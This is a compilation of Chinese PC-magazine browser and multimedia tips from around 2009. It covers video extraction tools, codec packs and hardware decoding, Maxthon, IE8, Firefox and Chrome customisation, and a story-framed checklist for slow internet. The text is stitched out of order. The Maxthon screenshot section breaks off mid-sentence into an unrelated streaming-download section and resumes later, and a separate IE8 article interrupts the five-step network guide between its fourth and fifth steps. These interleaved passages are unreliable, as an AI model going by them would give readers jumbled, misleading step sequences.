首先从http://work.newhua.com/cfan/200911/SAVPlayer_Setup-v1.0.30.zip下载Standalone Video Player，解压安装后，在IE中打开视频网站，依旧以优酷为例，搜索到想看的视频后，将光标移到视频上，左上角会显示DV图标，点击它即可将视频提取出来在独立的窗口中播放，并且可以随意移动位置，缩放大小等。而且，在你关闭浏览器之后，这个独立的视频窗口依旧能播放，非常方便。

除了Standalone Video Player外，还有一款Window Extractor（下载地址：http://work.newhua.com/cfan/200911/WindowExtractor.zip）的小程序，也有提取视频独立播放的功能，而且适用于任意浏览器。下载解压，双击其中的Window Extractor.exe运行即可。现在，在任意浏览器中打开视频网站，将光标移到自己喜欢看的电影之上，然后按F10键，即可将该视频提取出来在独立的窗口播放了，并也可以任意移动和缩放。

默认情况下是按F10键提取视频，如果跟你系统中其他的快捷键有冲突，你可以重置Window Extractor快捷键。程序运行后会在系统托盘区显示图标，双击打开Window Extractor设置窗口，点击Extract Windows at Mouse Position（提取光标所在位置的视频）下拉按钮，重新选择快捷键即可。

### 软硬兼施，无障碍看高清电影
文/李云峰

花费了好几个小时甚至好几天的时间，好不容易将期盼已久的某部影片的高清版下载回来了，结果电脑竟然播放不了，或者是即使电脑能够播放，但也是CPU使用率居高不下，甚至还会出现跳帧的现象，此时是不是要晕倒？别着急，下面就给大家提供一些解决方法。

#### 解码——为高清电影请个翻译官
因为视频数据量巨大，所以在制作影片时会进行压缩处理，比如我们常听到的Xvid、RMVB等，实际指的是不同的影片压缩技术，也称之为编码。相应在，在播放电影时就要进行“反向工程”，对编码了的电影进行解码。

影片的解码相对来说不是很难，网上下载、安装一个解码器就可以了。特别是一些热心的网友将一些常用的解码器做成了集成包发布到网上，这样只要安装一个集成包，基本上就能搞定所有的影视播放了。

这里推荐使用“完美解码”（http://www.newhua.com/soft/52770.htm）或者是“终极解码”（http://www.newhua.com/soft/57110.htm）。这两款解码器的集成包都非常全面，不仅包含目前所有的解码器，还集成了三款功能强大、易用的播放器，用户可根据自己的需要自行选择使用播放器软件。

下载安装好这两个解码包的其中之一，基本上就可以做到能够播放所有视频文件了。如果不想集成太多，觉得上面的解码包太过臃肿，还可以选择K-Lite Codec Pack解码包（http://www.newhua.com/soft/26934.htm），配合KMplayer或者BSplayer基本上就可以搞定所有视频了。

#### 硬件解码我要加速度
安装解码器后，视频文件是能播放了，但在播放高清视频时，有时会出现很“卡”的现象，这说明你目前正处于“软解码”状态，是通过软件让CPU进行解码处理，因为数据量巨大而让CPU负担过重而造成的。而“硬解码”，则是专门用于解析视频的硬件单元，可以为CPU减压。在家用电脑领域，目前硬解码大多数由显卡来承担。假如你的显卡支持硬解码的话，可以在播放软件中开启它。

这里以前面提到的“完美解码”为例，首先下载并安装“完美解码”。安装结束时会自动运行“完美解码”设置程序（如果没有运行或误关闭了可以从“开始”菜单中开启），根据显卡的不同需要选择相应的选项。如果是NVIDIA显卡，可以选择NVIDIA相关的选项，我的是AMD780G整合主板，所以在“解码模式”中我选的是“影音播放HDTV（ATI UVD）V2”，然后播放器选择KMPlayer，“视频渲染器”选择了“覆盖合成器（默认）”，下方的“H.264视频解码器”选择了“CyberLink（DXVA）”，然后单击“确定”按钮完成设置（见图1）。



再次播放高清视频文件时，在KMPlayer中，按下Ctrl+Tab组合键，在打开的“高级视频信息”对话框中，注意观察“视频信息”的下方，如果有DXVA信息，则说明硬解码已经打开了。或者通过观察CPU的使用率来判断，在KMPlayer中，按下Tab键，在屏幕中出现的视频播放信息中，观察CPU使用率即可。我使用的AMD Athlon 64 X2 5000+的CPU，在播放奥运会开幕式720P的MKV视频时，在未打开硬解码时，CPU使用率在25%左右，打开硬解码后，CPU使用率在5%左右，由此可见，在播放高清视频时，硬解码可以减轻CPU很多负担。

### 小提示
- ★经过在多款双核电脑上测试后发现，在KMPlayer中通过Tab键查看到的CPU使用率信息并不是很准确，因此在实际测试时，建议配合任务管理器一起查看。
- ★由于网上下载的高清视频中，采用的编码格式有多种，因此上面的设置仅是针对个别情况下适合，对于非ATI显卡用户，在设置时要注意尽量选择包含NVIDIA的项。并且由于对于视频文件所采取的编码并不一定清楚，因此在设置时常常需要经过多次尝试才能成功开启硬解码。判断硬解码是否成功开启的方法，参看上面的介绍，对于硬件配置不是特别高的用户来说，一般直接通过观察任务管理器中的CPU使用率就很容易分辨了。
- ★如果本机已经安装了Realplayer或Quicktime播放器，那么在安装“完美解码”时，注意不要勾选Real和Quicktime解码器。如果已经安装了，那么在设置时，要注意关于Real和Quicktime的视频解码器要选择官方的，而不要使用“完美解码”中的，以免造成解码冲突。
在使用KMPlayer播放RMVB格式的高清视频时，如果发现视频加载很慢，或者播放时有视频和声音不同步的现象时，可打开KMPlayer“参数设置”对话框，单击左侧的“滤镜控制”，然后在右侧的“DirectShow:”右侧的文本框中，将“.RMVB .RM”删除即可（见图2）。



### “傲游”网络有诀窍
文/李云峰

因为IE占据着浏览器市场的头把交椅，而IE又是那么的不尽人意，所以一些技术爱好者便在IE核心的基础上，进行增强、人性化功能的开发。其中的佼佼者非傲游（傲游）浏览器莫属，使用的人非常多。它除了基本的网页浏览，还有许多贴心功能，掌握了这些，可以让我们的网络生活更加的丰富多姿。

#### 技巧1：多标签一次刷新
很多网友喜欢在论坛抢“沙发”，一次打开很多个标签，然后一个个地刷新，看哪里又有新贴子了。是不是觉得这样做很累呢，如果一次性就可以让所有的标签页都刷新就好了。其实当需要刷新所有标签页时，右键单击工具栏中的“刷新”按钮即可（见图1）。同样，右键单击工具栏中的“停止”按钮可以停止所有标签页。



#### 技巧2：新建网页更快速
大家都有这样的经历，经常需要从某个地方复制一个链接，然后复制到地址栏中按下回车键再打开网页，在傲游中根本不用这么麻烦。复制好需要打开的链接之后，右键单击“标签栏”右侧的“+”号按钮，新建的标签页会自动打开复制的网址了。

#### 技巧3：“手势控制”解放你的食指
看新闻，逛论坛，总免不了打开新标签、关闭标签、滚屏、前进、后退等操作，不断地单击、双击，食指都要僵硬了，那就尝试一下超强的手势控制功能吧。

使用鼠标中键（普通鼠标的滚轮就是中键）单击标签可直接关闭标签页面；按下鼠标右键，向下拖动，看到鼠标拖动的轨迹时松开右键，页面会自动向下滚一屏，向左拖动可实现页面后退，向右拖动可实现右面前进。

如果发现拖动鼠标没反应的话，在傲游中，依次单击“工具→傲游设置中心”，在打开的页面中，单击左侧的“鼠标控制”标签，在右侧勾选“启用鼠标手势”、“显示鼠标手势轨迹”这两项，单击“应用”保存设置。在“鼠标手势”下方单击相应的手势可展开进行动作设置，单击上、下、左、右箭头，可设置动作，单击“设置动作”可打开“选择命令”对话框选择动作对应的“命令”，单击“应用”使动作设置生效（见图2）。



除了内置的动作外，还可以单击“添加项目”添加新的动作命令，从而将鼠标手势功能发挥到极致。

#### 技巧4：傲游来当炒股助手
虽然现在的股票不如以前火爆了，但股市总是令人着迷，虽然买的不多，但心中总免不了要去关注股市。为了更有效率，我把傲游请来了当炒股助手。

##### 1.行情自动刷新
炒股大家都比较关心大盘走势，因此每天都要不定时看下大盘才能心安。为了给自己省去麻烦，可以利用傲游的自动刷新功能。右键单击标签页，在弹出的菜单中依次选择“自动刷新→启用”，然后再选择“设置刷新频率”，根据自己的日常习惯，设置一个合理的时间。

经过这样设置之后，只要不定期看一下大盘页面即可，而无须自己去手动刷新。

##### 2.大屏幕有大用处
现在22英寸宽屏基本上成了标准配置了，宽屏显示器的分辨率也提高了不少，同时开两个窗口看两个网页基本上都没什么问题，不过开两个窗口不是很好控制，使用上也不方便。

在傲游中，按下F10键，这时可以看到窗口被一分为二了，这时可以在两边的标签页中查看不同的页面，对于需要一些分析比对的情况，这种分屏的方法非常有用，最关键是看着方便。

> 小提示
右键单击标签，在弹出的菜单中选择“新建阅读标签”可以实现同样的分屏效果，分屏后再次按下F10键可取消分屏显示，标签页面自动合并到同一窗口中。

#### 技巧5：傲游也是玩截图
一提到截图，大家都会想到专业的截图软件HyperSnap、SnagIT等，不会想到浏览器也能截图，其实傲游在很早就实现了浏览器截图功能，并且在一些特殊的场合下，比专业截图软件还要更方便。

##### 1.超长网页轻松截取
有时刻了一些特别的应用，需要将网站的某一页整个截取下来，但如果网页太长超出屏幕很多则很难截取，即便是专业软件也不是很好操作。在傲游中，打开欲要截图的页面，页面加载完成后，依次单击“工具→屏幕截图→当前页面截图”（见图）## 技巧6：傲游也玩流媒体下载

流媒体下载一直是一件比较麻烦的事，特别是现在的网页加密技术越来越成熟，往往很难找到流媒体的真实地址，从而无法完成下载。而傲游针对这一问题给出了完美的解决方案，经过实际测试，发现傲游的媒体下载功能可以说非常实用。

在傲游中，执行“工具→傲游设置中心”命令，在打开的设置页面中，单击左侧的“浮动按钮”，在右侧勾选“启用浮动按钮”，并勾选下方的“在Flash和媒体文件上显示浮动按钮”，最后单击上方的“应用”按钮保存设置。

> **小提示**
>
> 为了解决使用浏览器下载容易断线的问题，建议使用下载工具下载。同样在设置页面中，单击左侧的“文件下载”，在右侧选择“使用外部下载工具”，软件会自动检测当前系统中安装的下载工具软件，并以黑色标示，选中希望使用的下载工具软件，单击上方的“应用”按钮保存设置。

同样，选择“屏幕截图”的下级菜单中的不同选项，可以截取全屏幕、窗口以及区域范围内的图片。

#### 2.截图、保存全自动

无论使用哪一种截图工具，习惯性的做法都是先截图，然后选择保存路径，编辑文件名，保存图片，对于截取的图片需要再次编辑的情况来说这样做无可厚非，如果只是要截取某些图片，而不需要再次编辑，显然一系列的操作会影响效率，使用傲游，可以让截图、保存一次完成。

还是在“屏幕截图”下级菜单中，选择“截图选项”，在弹出的“选项”对话框中，勾选“保存到文件”项，选择想要保存的文件类型，再单击“浏览”按钮选择一个文件保存的目录，单击“应用”按钮保存设置。再次截图时，就会自动以capture加数字的形式或者网页标题为名自动保存到设置的路径下。

这里以音乐网站上正在播放的音乐文件为例，在音乐播放页面，鼠标指针在播放器上移动，便会出现一个十字形状的图标，单击图标，在弹出的菜单中单击“通过下载工具保存”（见图4），这时傲游会自动调用设置的下载工具软件并新建下载任务，这样音乐文件就能轻松地下载下来了。

通过傲游内置的媒体感知功能，就可以轻松下载流媒体了，媒体感知功能对于传统的音乐文件、视频文件及Flash动画文件都有效，只是不能感知现在比较流行的FLV格式动画，不过不用担心，使用傲游同样可以“揪”出FLV动画的真实地址，从而下载它。

现在的播客网站，采用的都是Flash Vedio媒体格式（即.flv格式的动画文件）。虽然网上已经提供了很多种下载FLV动画的方法，但基本上都是针对某一特定网站或几个网站的，并不能“通用”，或者就是方法通用但具体操作起来麻烦且难度大，而使用傲游下载FLV视频的方法，在简单易操作的前提下保证在任何网站上都适用。

运行傲游，进入FLV媒体播放页面，将鼠标指针移至播放的视频画面上，在出现十字形图标时，单击图标，在弹出的快捷菜单中选择“网页嗅探器”，接下来会弹出一个“查看日志”对话框，会显示当前页面包含的FLV动画地址以及视频的名称（见图5），右键单击要下载的项目，在弹出的右键菜单中选择“使用傲游下载”，这时傲游会自动调用附带的下载工具进行下载。

### 扩展：将出的傲游3.0

虽然傲游3.0还只是在内测阶段，不过网上已经能够找到下载了（http://work.newhua.com/cfan/200911/mx3_cn.rar）。

此次傲游3最重要的改进，是它采用了Webkit+Trident双核心。前者能大大提升我们浏览的速度（极速模式），后者Trident则是IE所使用的内核（傲游称之为兼容模式），当一些特殊网站（如一些购物网站）在极速模式下不能正常使用时，傲游会自动切换到兼容模式以确保我们能正常访问网站。如果浏览器未能自动切换，我们可以点击地址栏右侧的按钮手动切换。

傲游3的另一个亮点，就是启动时它会打开3个进程：Maxthon.exe、MxCore.exe和MxResMgr.exe。其中Maxthon.exe是界面进程，MxCore.exe是浏览进程；如果同时使用了极速模式和兼容模式则会有2个MxCore.exe进程。几个进程相互独立又协同工作，除Maxthon.exe进程外，其他任何一个进程崩溃或者假死都不会影响到其他进程。即使核心崩溃了也不会有太大影响，直接点击提示中的“重新打开”，就能恢复崩溃的页面。

### 调教IE8 DIY自己的专属浏览器

微软发布IE8浏览器，它面向的是所有用户，所以各种功能设置都尽可能中规中矩。但实际上，每个人的使用习惯肯定是不尽相同的，那么，如何让它能更好地为我们服务呢？这就需要好好调教它了。

#### 定制主页我自己说了算

什么是主页？就是你启动浏览器之后自动打开的网页。默认情况下，IE8主页打开的都是微软自家的网站。不过说实话，平时很少有人去微软的网站的。所以我们可以将主页设置为自己常去的网站。

方法一：启动IE8之后，点击“工具→Internet选项”菜单命令，在“主页”框中，删除原有网址，输入自己常去的网址（如：http://www.cfan.com.cn），确定即可（见图1）。另外，有些人不希望启动浏览器时打开主页，这会影响启动速度，这种情况下，可在图1所示窗口中，点击“使用空白页”，再确定即可。

方法二：在网上冲浪时，遇到一个特别精彩的网站，想要把它设置成主页，可点击工具栏主页图标边的下拉按钮，选择“添加或更改主页”，在打开的对话框中，选中“将此网页用作唯一主页”，再点击“是”就可以了（见图2）。其实，在IE8中，开始支持多主页，即启动浏览器时同时打开多个页面。如果希望设置多主页，在图2所示对话框中，应该选择“将此网页添加到主页选项卡”项。当然，多主页设置，也可以直接在Internet选项对话框中实现，主页框中可以输入多个网址，但是要注意一个网址要单独占一行。

> 小提示：不一样的iGoogle不一样的体验
>
> 浏览器主页，如同我们访问因特网的大门，选择一个好“大门”，会大大提升我们的上网质量。如果是自己的个人电脑，别人很少用到，可以为自己定制一个非常个性化的主页。这方面，我建议大家试试谷歌的iGoogle。
>
> 首先打开谷歌主页（http://www.google.cn），点击右上方“个性化首页”，如图3所示，这里你可以选择主页上要显示的内容（如天气、音乐、相册、财经新闻、游戏），并且可以根据自己的喜好设置页面主题图案。设置完点击“立即开始体验”，就可以看到实际效果了。如果觉得满意，点击页面上方“将iGoogle设为首页”就大功告成了。

#### 定制自己喜欢的搜索引擎栏

IE8的右上角是搜索栏，在其中输入关键字，按回车键之后，直接会调出搜索引擎页面并自动完成搜索，非常方便。不过IE8搜索栏，默认使用的是它自家的Live Search，这对用惯了谷歌或百度的朋友来说有点不便。幸运的是，我们可以修改搜索栏默认调用的搜索引擎。

单击搜索栏右侧的下拉按钮，选择“查找更多提供程序”（见图4），打开“可视化搜索-加载项资源库”页面，点选左侧“搜索”，在右侧可看到谷歌、百度、Yahoo、淘宝、网易有道等好几十个搜索引擎。选中自己喜欢的搜索引擎，单击其右侧的“添加到Internet Explorer”按钮，在接着弹出的添加搜索提供程序对话框中勾选“将它设置为默认搜索提供程序”，单击“确定”即可。

如果已经添加了其他搜索引擎，但是又想修改搜索栏默认使用的项，可单击搜索栏右侧下拉按钮，选择“管理搜索提供程序”，在列表中点击喜爱的搜索引擎，再单击下面的“设置为默认值”按钮，确定即可（见图5）。

#### 定制工具栏按钮

出于简约的考虑，默认安装的IE8界面上工具按钮比较少，如果自己常用的按钮没有显示，用起来会很不方便，这时我们可自行添加。

在IE8的菜单栏或工具栏空白处右击，选择“自定义→添加或删除命令”，打开自定义工具栏对话框后，在“可用工具栏按钮”列表中选择自己常要用到的按钮，然后点击“添加”将其加到右侧列表中。同样，如果你不喜欢某个按钮出现在主界面，可在右侧列表中选择该按钮然后点击“删除”。在右侧列表中，通过“上移”或“下移”，还可以调整按钮在工具栏中的位置。设置完毕，点击“关闭”退出自定义工具栏，这时就会在工具栏中看到自己想要的功能按钮了，需要时点击即可使用。

上面介绍了几种定制IE8的方法，大家还可以挖掘出更多这方面的技巧，让IE8越用越顺手。

#### 浏览器中的专业搜索快车道

文/青岛/黄振华

上大学的，没有人不知道CNKI吧? CNKI——中国知网，涵盖几乎所有的学术资源数据库，如中国学术期刊网络出版总库、中国博士学位论文全文数据库、德国Springer期刊数据库等等。如何能一键搜索这些数据库中的资源? 其实我们可以在浏览器中为它打造专有的“快车道”。

以傲游为例，点击菜单“工具→傲游设置中心”打开设置页，点选左侧“搜索”，再在右侧点击“添加项目”，将标题定为“知网搜索”，并将网址设置成“http://epub.cnki.net/grid2008/brief/result.aspx...expertvalue=TI=%us&orderby=relevant&stab=expert&navicode=”。因为网址较长，容易输入错误，所以中间部分我省略了，大家可以去复制完整网址。设置完毕，点击“保存”（见图1）。

- ★ 其他IE核心的浏览器，设置专用搜索的方法与傲游大同小异。Firefox用户，可在它的安装目录searchplugins子文件夹下任意复制一XML文件，再将其中相应的搜索引擎网址改为上面的网址即可。
- ★ 除中国知网外，同样可添加其他的专用搜索，如：
  - 迅雷文件搜索
    http://search.gougou.com/search?search=%us&restype=-1&id=55&m=1
  - 优酷视频搜索
    http://so.youku.com/search_video/q_%us
  - FTP搜索
    http://file.tianwang.com/cgi-bin/search?word=%s&FType=255

上述搜索网址中的“expertvalue=TI=%us”， “expertvalue=”表示采用专业检索，“TI=”是title（题名）的简写，表示搜索标题，“%us”表示所输入的检索词采用Unicode编码，通过URL向检索服务器传递参数。

以后当需要在中国知网搜索论文时，可如图2所示，点击傲游搜索框左侧下拉按钮，选择“知网搜索”，再在搜索框中输入关键词（如：环境保护），按回车键之后，很快就可以搜出与其相关的所有参考论文了。

### 取回丢失的文字 小狐狸变身神偷

文/湖南/踏雪无痕

现在许多人都有在线写博客日志的习惯，但有时会遇到误关窗口或系统死机的情况，辛辛苦苦编写的内容没来得及保存便瞬间灰飞烟灭，真让人欲哭无泪。不过如果用的是Firefox浏览器，并安装一个小插件，相信小狐狸会给你带来不一样的惊喜，因为它会帮你把失去的文字偷回来。

在Firefox中打开Textarea Cache插件页，安装后重启Firefox，在“工具→附加组件→扩展”即可看到已安装好的Textarea Cache，此时就可以放心地写日志了。比如我写的一篇日志，还没完成时，不小心点了Firefox的关闭按钮，恰巧我又将“关闭多个标签页时警告我”项给取消了，若在平时，只能自叹命苦然后重新编写了。不过现在，我重新打开Firefox并登录自己的博客，在点击“写日志”后却出了一个“您有一篇未保存的日志，是否现在加载”的提示（见图1），“确定”后惊奇地发现，失去的文字已跃然其中。

小狐狸是怎么偷回来的呢? 原来Textarea Cache有暂存资料的功能。在Firefox中点击“工具→附加组件”，打开Textarea Cache的“选项”，还可以对它做更多的设置呢（见图2）。现在有了它，在写博客或论坛发表留言时，再也不用写一点保存一点了，够方便的吧。

### 画皮外传——五道符贴出网速变慢的元凶

文/流言飞语

太原王生，新装宽带，喜夜间上网浏览美女网站，又爱下载试用诸多软件，多日无事。某日一朋友来访，奇道：你的电脑若有妖气，又不像中毒，怎上网速度慢如蜗行？王生亦惊觉，跪求朋友帮忙，友人叹道：妖气过重我亦无法治服，传说茅山一道士专解网速变慢的顽症，不如去求求他。不过茅山设有五道关卡，你可好自为之。王生遂携电脑，一路往茅山而去……

#### 第一道：你的网速真的很慢吗？光凭感觉是不太准的，可以在线实际测一测。

国内的测速网站推荐用中国电信的，在浏览器中打开http://www.bjnet.net.cn/dkcs/BarTest.html，即可快速得到测试结果；国外的测速网站可以试试McAfee的，登录http://us.mcafee.com/root/speedometer/，点击“Click here to Test Now”即可，如图1所示，我在单位测试的网速为200KBPS。

> > 小提示：如果仅是个别网站访问慢，其他网站网速正常，那有可能是要访问的网站本身的问题，说明该网站所在服务器带宽不足或负载过大。这种情况，可换个时间段再上网试试。

#### 第二道：是不是中病毒了。

测试之后，如果网速确实很慢，首先是病毒的嫌疑非常大。可重启Windows进入安全模式，再用杀毒软件查杀病毒。没有安装杀毒软件的，可试试百度在线杀毒服务：
首先用IE（其他浏览器支持不好）登录百度杀毒频道（http://shadu.baidu.com/freetools/index.jsp），这里可以看到金山毒霸、瑞星、卡巴斯基、McAfee、MyV3等多家主流杀毒软件厂商与百度合作，推出的多种在线查毒、杀毒服务。这里以“百度安全中心”为例，点击其下的“立即使用”，在初始化页面中点击“是”进入百度安全中心主页，切换到“病毒木马防杀”标签，点击其下的“在线杀毒”，再根据提示安装相应Activex插件。有可能IE会拦截插件安装，这时可点击提示栏，再选择“为此计算机上的所有用户安装此加载项”即可（见图2）。安装后将自动升级病毒库，打开的页面与一般杀毒软件界面相似，选择具体目录或整个分区，查杀病毒就可以了。注意，百度杀毒频道中的在线杀毒服务，有免费和收费时段之分。

> > 小提示：防火墙的过多使用也可导致网速变慢，处理办法不必多说，卸载下不必要的防火墙只保留一个功能强大的足以。

#### 第三道：看看网卡有问题吗？

重装一次网卡驱动看看，如果不能解决问题，看看是不是网卡绑定的协议太多，这也会导致网速变慢。在控制面板中双击打开“网络连接”，右击“本地连接”，选择“属性”，在此可以查看网卡绑定的所有协议（见图3）。如果你安装过卡巴斯基、VMware、IP数据包分析工具、VPN软件等，就会发现其中多出了许多协议，它们都会对流经本机的网络数据进行过滤，从而降低了网速。
如果这些软件你并不经常使用，可暂时取消它们所绑定进来的协议，等到需要用的时候，再重新选上即可。

#### 第四道：浏览器是不是生病了？

上网主要靠的是浏览器，如果它出了问题，肯定会影响网速。这里以IE8为例，介绍如何设置浏览器以提速。

- 1. 减少缓存空间。单击IE8菜单“工具→Internet选项”（见图4），点击“浏览历史记录”下的“设置”，将“要使用的磁盘空间”降低到推荐的最小空间“50MB”，这可以减少浏览器扫描缓存的时间从而达到提速效果。
- 2. 清除临时文件。在Internet选项窗口，点击“浏览历史记录”下的“删除”，选择删除临时文件、历史记录等，也可起到一定的提速作用。Cookie项建议保留，否则泡论坛的时候总需要重新登录，很麻烦。
- 3. 删除无用的网页插件。许多软件都喜欢在IE中安装自己的插件，防不胜防，这有时会大大影响浏览速度。在IE8中，单击“工具→管理加载项”，所有的IE插件便一目了然了，右击无用的插件选择“禁用”即可。

### 小方法提高IE8浏览效率

随着IE8正式版的推出，使用它的人越来越多了。IE8除了本身的性能提升外，还加强了很多人性化的设置，从而让整个网页浏览工作更有效率。

#### 网址输入、管理更轻松

IE8的地址栏有了很大改进。首先就是自动完成功能，IE8会根据过去浏览的历史记录，分析常去的网站，然后在你输入网址时它会给出提示供我们选择，从而实现网址快捷输入。

另外，以前在IE中要删除浏览器记住的某一条记录时，往往要借助第三方工具，而现在IE8自身就可以做到：在希望删除浏览器记住的某一条地址记录时，直接单击地址栏的下拉按钮，将鼠标指针移动到需要删除的行，然后单击红色的删除按钮即可（见图）。

#### 多重搜索引擎，想用谁就用谁

IE8提供多重搜索引擎支持，单击搜索框右侧的下拉箭头，可以看到提供了不同的搜索引擎供选择。如果想改变默认搜索引擎，只需在下拉菜单中选择“管理搜索程序”，然后在打开的对话框中选中想要使用的默认搜索引擎，最后单击下方的“设为默认值”即可。

**小提示**
如果想用浏览器未提供的搜索引擎，可在下拉菜单中选择“查找更多提供程序”，IE8会自动打开“加载项资源库：可视化搜索”页面，其中提供了目前主流的搜索引擎，直接单击“添加到Internet Explorer”按钮即可。

#### 搜索目标，直接定位

上网查资料总是难免的，有时想在一个长篇的网页里找到自己需要的内容还真是一件不容易的事。IE8也让这一切变得更简单，IE8提供了“关键字高亮”技术。

在目标页面，按下Ctrl+F快捷键，然后在“查找”框中输入关键字，页面中的关键字便马上高亮显示了。

#### 误关网页，有后悔药了

多标签浏览在查找资料时非常方便，不过也有郁闷的时候，一不小心把需要的页面关闭了，由于是通过搜索引擎搜到的，而那个页面的地址也不记得，这时想要再找到那个页面就非常麻烦了。

在IE8中，误关了某一标签页后，直接单击标签页右侧的“新标签页”按钮，在打开的新标签页中就有刚刚关闭的一些标签的链接，通过这些链接可以很方便地打开刚关闭的标签页了。

#### 多标签页快速查找

多标签浏览虽然方便，但一不留神就打开了很多标签页，这时想要快速找到某个需要的页面就不是很容易了。IE8提供了快速浏览功能，在打开多个标签页面时，单击标签左侧的“快速导航选项卡”，这时所有的选择卡都会以缩略图的形式显示，这样找起来就方便多了。

**第五道：DNS有没有故障？** DNS配置错误，或者DNS服务器故障，也会导致网络阻塞甚至无法访问。可在“Internet 协议（TCP/IP）”的属性中，重新设置可用的DNS服务器地址。如果DNS服务器故障一时无法修复，可试试它的替代品：OpenDNS。打开网页http://www.opendns.com/select_network_type.php?p=start，在这里根据你实际的网络环境进行选择，有家庭网络（Home Network）、校园网（K-12 School）、中小型商业网（Small/Medium Business）、企业网（Enterprise）等几类，点击进入相关页面后，接提示操作，将会一步步教你如何设置OpenDNS。

**小提示**
- ★ 浏览器通常都是发送请求到服务器，然后等待直到服务器回应，而流水线技术则允许我们在服务器响应之前输入多个请求，这样就减少了页面载入时间。使用Firefox的朋友，可在地址栏输入about:config并按回车键打开配置页，将其中的network.http.pipelining和network.http.proxy.pipelining设置为“true”，将network.http.pipelining.maxrequests设置为一个数字，如10，表示可以同时管理10个请求。最后右击空白处，选择新建一个nglayout.initialpaint.delay项，值设为0，减少等待的时间。
- ★ IE8的删除浏览历史记录窗口中，有一项“InPrivate Blocking 数据项”，这是IE8中新建的隐私保护功能。选中它之后，IE8就会提醒你删除哪些可能窥探你隐私的记录。比如你连到A网站，再连到B网站，最后连到C网站，那么C网站就有办法知道你曾经访问过A和B网站。通过InPrivate Blocking可以防止这些行为。

**小提示**
喜欢用代理服务器上网的朋友，需要及时更新代理，因为代理服务器一般变动较大，一段时间使用较快的代理，过段时间之后可能就因为种种原因变慢，甚至不能使用了。修改IE代理的方法，可在Internet选项窗口，切换到“连接”项，家庭拨号上网用户，点击“设置”，选中“此连接使用代理服务器”，再分别填上代理服务器的IP和端口。如果是在单位局域网内，则在“连接”下点击“局域网设置”，单击“高级”进行设置即可。

王生好不容易爬上茅山顶峰，向道士求救，谁知道士微微一笑，打开他带来的电脑，王生发现网络已畅通无阻了。原来在他一路前进的过程中，问题已一步步得到解决。正在高兴之时，忽然又来了一人，道士打开他的电脑后脸色为之一变，原来此人电脑中的网络故障依旧。茅山道士咬牙恨道：“恶鬼，我本来可怜你，谁知你竟敢如此猖狂，那就别怪我不客气了！软件不行，某家不会从硬件下手！”欲知后事如何，以后有机会再分解。

### 补全Chrome不应丢掉的五大功能

文/梦与梦寻

Chrome（谷歌浏览器）一经推出，就吸引了“粉丝”无数。它界面简洁，操作方便，它独特的多进程设计大大降低了其他浏览器中常见的假死的概率。不过，有些地方Chrome似乎简约得有点过了，反而给我们的使用带来不便。本文试着通过一些工具和方法进一步增加Chrome的功能，希望对大家有所帮助。

#### RSS订阅

现在许多网站都提供RSS订阅，这样我们就能即时获取网站的更新信息。要想让Chrome支持RSS订阅，可打开网页http://savanttools.com/feedhelp-bookmarklet.asp，将其中的Detect Feed（自动检测源）链接拖放到书签栏上（如果书签栏没有显示，可按Ctrl+B键快速调出它）。当浏览到提供RSS订阅的网站时，点击书签栏上的Detect Feed，将打开如图1所示页面，点击其上的Google、My Yahoo等按钮，即可完成订阅。比如点击Google按钮，即可将此RSS订阅内容添加到你的iGoogle个性化主页中，随时可以查看。



#### 社会化书签

许多社会化书签（即可与人共享的在线书签）网站，都会针对特定浏览器推出相应的插件，下载安装后即可通过浏览器工具栏快速访问。不过因为Chrome还是较新的浏览器，这方面的支持不够。幸运的是，这类书签网站一般也提供JavaScript形式的书签，可借由它们以弥补Chrome的不足。以Delicious（美味书签）为例，登录后，打开http://delicious.com/help/bookmarklets，找到Internet Explorer(Manual)，它下面有两个链接：Bookmark on Delicious（保存到美味书签）和My Delicious（我的美味书签）。直接将它们拖放到Chrome书签栏上即可。以后浏览网站遇到要收藏的网址时，直接点击书签栏上的Bookmark on Delicious按钮即可。

#### 鼠标手势

用过傲游的朋友一定知道“鼠标手势”，即只要向不同的方向拖动鼠标，就可以完成一些常规浏览操作，如前进、后退等。不过要让Chrome也支持鼠标手势的话，需要借助第三方工具来完成，比如gMote（下载地址：http://www.handform.net/gmote/gmote-full.zip）。下载后解压，双击执行其中的gmote.exe安装，第一次运行将弹出提示框，要求选择软件界面语言，当然是点击“中文（简体）”了。软件启动后，在系统托盘中会显示gMote图标，双击打开软件设置窗口（见图2）。点击“配置程序”，通过“浏览”按钮找到Chrome程序文件（一般在：C:\Program Files\Google\Chrome\Application\chrome.exe）并添加到已知程序列表中，点击“好”返回gMote。



点击gMote中已有的手势项目打开它的选项窗口，点选其中新添加的谷歌浏览器项，并设置它的具体操作，如“浏览器：前进”、“浏览器：后退”、“浏览器：刷新”等，设置好后点击“好”返回。同样方法设置其他手势。这样，我们在谷歌浏览器中也可以像在傲游中一样使用鼠标手势了：按住右键不放画一个线条，就可以完成相应的操作了。

#### 打开空白页面

细心的朋友会发现，在Chrome中，当关闭最后一个标签时，它并不像其他浏览器那样打开空白页，而是直接关闭掉整个浏览器，这导致我们无法在Chrome中打开空白页。一个解决方法就是：先在地址栏中输入“about:blank”（不含引号），按回车键打开空白页，然后拖动空白页地址前的五角星按钮放到Chrome的书签栏上。当我们想要新建空白页时，点击书签栏上的“about:blank”即可快速建立。

#### Chrome换肤

在Firefox中我们可以自行更换浏览器主题，但是Chrome却没有内置主题更换功能。要想给Chrome换主题，可打开http://freechromethemes.com/，这里提供了20多种Chrome主题。选中自己喜欢的一款，点击其下的Download XXX Google Chrome Theme（下载某某Chrome主题），解压下载的文件后，用其中的DLL文件替换Chrome安装目录下Themes子文件夹中的同名文件，重启Chrome即可（安全起见，尝试前请先备份原有的DLL文件）。

### 一次收藏 随处可用

文/流言

上网冲浪时遇到好的网站，一般都会收藏下来，以方便以后再次访问。不过传统的浏览器收藏，网址资料都是存在本地的，如果换到其他地方和用其他的电脑上网时，就无法调用这些收藏的网址了。解决这一问题的最好办法，就是使用在线收藏。

#### 傲游在线

现在使用傲游浏览器的人比较多，其实这款浏览器本身就支持将收藏夹内的网址内容通过服务器进行同步。这样无论在什么地方，只要用的是傲游，就可以轻松共享收藏的内容了。
在傲游中，当看到某一精彩站点后，可点击“收藏→添加到收藏”（快捷键为Ctrl+D）将其添加到本地收藏夹中。如果想一次将所有标签页都收藏的话，可选择“收藏→添加所有标签到收藏”。
接下来点击“收藏→整理收藏”菜单命令，打开收藏管理器，点击“更多→手工同步在线收藏”，根据提示输入账户和密码，点击“开始”即可完成同步（见图1）。
以后在其他地方上网时，同样在收藏管理器中点击“更多→手工同步在线收藏”进行同步，即可使用自己以前收藏的精彩网址了。



> ### 小提示
